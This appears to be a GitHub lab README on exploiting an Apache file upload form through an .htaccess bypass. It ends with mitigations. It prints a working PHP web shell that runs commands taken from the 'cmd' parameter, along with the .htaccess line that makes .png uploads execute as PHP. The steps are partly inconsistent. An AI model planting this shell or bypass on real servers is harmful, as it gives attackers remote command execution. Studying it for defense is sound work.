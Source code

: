 # 🛡️ File Upload Exploitation – Apache .htaccess Bypass

[![Lab Type](https://img.shields.io/badge/Lab-Web_Exploit-blue)](https://github.com/) 
[![Severity](https://img.shields.io/badge/Severity-High-red)](https://github.com/) 
[![RCE](https://img.shields.io/badge/RCE-Confirmed-brightgreen)](https://github.com/) 
[![PHP](https://img.shields.io/badge/Language-PHP-purple)](https://www.php.net/) 
[![Apache](https://img.shields.io/badge/Server-Apache-orange)](https://httpd.apache.org/) 
[![File Upload](https://img.shields.io/badge/Feature-File_Upload-yellow)](https://github.com/)  

---

## 📑 Table of Contents

1. [Overview](#overview)  
2. [Objective](#objective)  
3. [Vulnerability Description](#vulnerability-description)  
4. [Exploitation Steps](#exploitation-steps)  
5. [Proof of Concept](#proof-of-concept)  
6. [Mitigation](#mitigation)  
7. [References](#references)  

---

## Overview

This lab demonstrates a **file upload vulnerability** in a simulated web application. By exploiting weak validation, we are able to achieve **Remote Code Execution (RCE)** on an Apache server using an `.htaccess` bypass technique.

---

## Objective

- Understand file upload vulnerabilities  
- Learn how `.htaccess` can be abused to execute uploaded files  
- Practice safe exploitation in a controlled environment  

---

## Vulnerability Description

File upload functionality is often a critical entry point for attackers. 

In this lab:

- The web application **fails to properly validate file types**  
- Apache `.htaccess` files are **not restricted**, allowing uploaded files to execute as PHP scripts  
- This allows attackers to execute arbitrary code on the server  

---

## Exploitation Steps

1. Prepare the exploit files:  
   - `exploit.php` — the malicious PHP web shell  
   - `blank.png` — a harmless-looking image file to bypass file type restrictions  
2. Upload `blank.png` to test the upload functionality  
3. Upload `exploit.php` disguised as an allowed file  
4. Upload an `.htaccess` file to enforce PHP execution on disguised uploads:  

```apache
AddType application/x-httpd-php .png
````

5. Access the uploaded `exploit.php` via the browser to execute commands

---

## Proof of Concept

**exploit.php**:

```php
<?php
// Simple PHP web shell example
if(isset($_GET['cmd'])){
    system($_GET['cmd']);
}
?>
```

Test the exploit:

```
docker run -d -p 8080:80 -v /path/to/uploads:/var/www/html php:8.2-apache
```

---

## Mitigation

* **Validate uploaded files**: restrict by MIME type and file extension
* **Rename uploaded files** and store outside web root
* **Disable `.htaccess` overrides** where not required
* **Use least privilege permissions** for upload directories

---

## References

* [PHP Official Documentation](https://www.php.net/)
* [Apache HTTP Server Documentation](https://httpd.apache.org/)
* [OWASP File Upload Cheat Sheet](https://owasp.org/www-community/vulnerabilities/Unrestricted_File_Upload)
